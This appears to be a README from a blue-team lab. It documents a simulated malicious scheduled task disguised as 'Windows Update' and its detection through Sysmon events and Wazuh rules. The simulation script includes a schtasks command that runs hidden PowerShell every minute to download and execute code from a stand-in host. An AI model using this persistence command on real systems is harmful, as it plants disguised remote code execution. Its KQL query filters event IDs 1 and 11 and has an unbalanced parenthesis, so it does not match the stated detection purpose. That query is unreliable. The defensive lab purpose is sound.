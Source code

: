 # Suspicious Scheduled Task Simulation Summary

## Attack Overview
- **Description**: Simulated a malicious scheduled task (“Windows Update”) that runs a hidden PowerShell command to download code from `http://example.com`, mimicking persistence or C2.
- **MITRE ATT&CK**: [T1053.005 - Scheduled Task](https://attack.mitre.org/techniques/T1053/005/), [T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- **Objective**: Detect unauthorized task creation and suspicious PowerShell activity.
- **Date and Time**: June 14, 2025, ~1:50 AM IST

## Simulation Details
- **Environment**: Windows 10 VM (hostname: `DESKTOP-FF0MPJM`, Wazuh agent: `SIEM-Target-Windows`).
- **Sysmon Config**: SwiftOnSecurity `sysmonconfig-export.xml`.
- **Simulation Script**:
  ```powershell
  schtasks /create /tn "Windows Update" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://example.com')" /sc minute /mo 1
  ```
- **Execution**: Ran `create_scheduled_task.ps1` as Administrator.
- **Expected Events**:
  - **Windows Event ID 4698**: Task creation for “Windows Update”.
  - **Sysmon Event ID 1**: `schtasks.exe` and `powershell.exe` execution.
  - **Sysmon Event ID 3**: Network connection to `example.com`.

## Detection
- **Windows Detection**:
  - Expected in Event Viewer (`Windows Logs > Security`):
    - Event ID 4698 for `Task Name: \Windows Update`.
  - Expected in `Microsoft-Windows-Sysmon/Operational`:
    - Event ID 1 for `Image: schtasks.exe` or `powershell.exe`.
    - Event ID 3 for `Destination: example.com`.
- **Wazuh Detection**:
  - Expected Wazuh rules: `60105` (Event ID 4698), `61613` (Event ID 1), `61605` (Event ID 3).
  - Search Query (Wazuh Dashboard > Security Events > Discover):
    ```kql
    data.win.system.eventID: (1 OR 11)
AND agent.name: "SIEM-Target-Windows"
AND agent.ip: "192.168.1.101"
AND data.win.system.channel: "Microsoft-Windows-Sysmon/Operational"

    ```
  - **Findings**:
    - Alerts for `event.code:4698`, `win.eventdata.taskName: Windows Update`, or `win.eventdata.commandLine: *example.com` (pending Wazuh confirmation).
  - **Troubleshooting** (if no alerts):
    - Verified `ossec.conf` for Security and Sysmon log collection.
    - Ensured auditing for “Other Object Access Events”.
    - Checked Wazuh agent connectivity (port 1514).
    - Monitored `ossec.log` for errors.
- **Screenshots**:
  - `screenshots\wazuh_alerts_task.png`: Wazuh alerts (or empty if issue persists).
  - `screenshots\event_viewer_security.png`: Security Event ID 4698.
  - `screenshots\event_viewer_sysmon.png`: Sysmon Event ID 1/3.
  - `screenshots\task_scheduler.png`: Task Scheduler showing “Windows Update”.
- **Logs**:
  - `logs\security_events.csv`: Security events.
  - `logs\sysmon_events.csv`: Sysmon events.
  - `logs\wazuh_agent_filtered.log`: Wazuh agent logs.

## Learnings
- **Blue Teaming Insight**: Scheduled tasks are a stealthy persistence vector. Security and Sysmon logs detect task creation and execution.
- **Challenges**: Legitimate tasks may use PowerShell, requiring URL or command analysis.
- **Technical Growth**: Learned to simulate scheduled task attacks and query Wazuh for task events.
- **Best Practice**: Monitor task creation and baseline legitimate tasks with `schtasks`.

## Detection Logic Query
```kql
(data.win.system.eventID: (1 OR 11)
AND agent.name: "SIEM-Target-Windows"
AND agent.ip: "192.168.1.101"
AND data.win.system.channel: "Microsoft-Windows-Sysmon/Operational"
```
- **Purpose**: Detects task creation and related process/network activity.
- **Outcome**: Flags suspicious scheduled tasks.

## References
- [MITRE ATT&CK: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)
- [Wazuh Documentation: Sysmon Integration](https://documentation.wazuh.com/current/user-manual/capabilities/sysmon.html)
- [SwiftOnSecurity Sysmon Config](https://github.com/SwiftOnSecurity/sysmon-config)

## Attachments
- **Logs**: 
1. [Log 1](/DetectAndDefend/Phase1/scenario-8-Suspicious%20Scheduled%20Task/logs/log1.json)
2. [Log 2](/DetectAndDefend/Phase1/scenario-8-Suspicious%20Scheduled%20Task/logs/log2.json)
- **Screenshots**: 
1. [ Sysmon-Event-Log-1](/DetectAndDefend/Phase1/scenario-8-Suspicious%20Scheduled%20Task/Screenshots/sysmon-event-log-1.png)
2. [ Sysmon-Event-Log-2](/DetectAndDefend/Phase1/scenario-8-Suspicious%20Scheduled%20Task/Screenshots/sysmon-event-log-2.png)
3. [ Sysmon-Event-Log3](/DetectAndDefend/Phase1/scenario-8-Suspicious%20Scheduled%20Task/Screenshots/sysmon-event-log-3.png)
4. [Sysmon Schedule Task Logging ](/DetectAndDefend/Phase1/scenario-8-Suspicious%20Scheduled%20Task/Screenshots/sysmon-repeat-tasks-logged.png)
5. [ Wazuh Dashboard Event with Search Query ](/DetectAndDefend/Phase1/scenario-8-Suspicious%20Scheduled%20Task/Screenshots/wazuh-dashboard-events.png)
6. [ Wazuh Detailed Log 1](/DetectAndDefend/Phase1/scenario-8-Suspicious%20Scheduled%20Task/Screenshots/wazuh-detailed-log1.png)
7. [ Wazuh Detailed Log 2](/DetectAndDefend/Phase1/scenario-8-Suspicious%20Scheduled%20Task/Screenshots/wazuh-detailed-log2.png)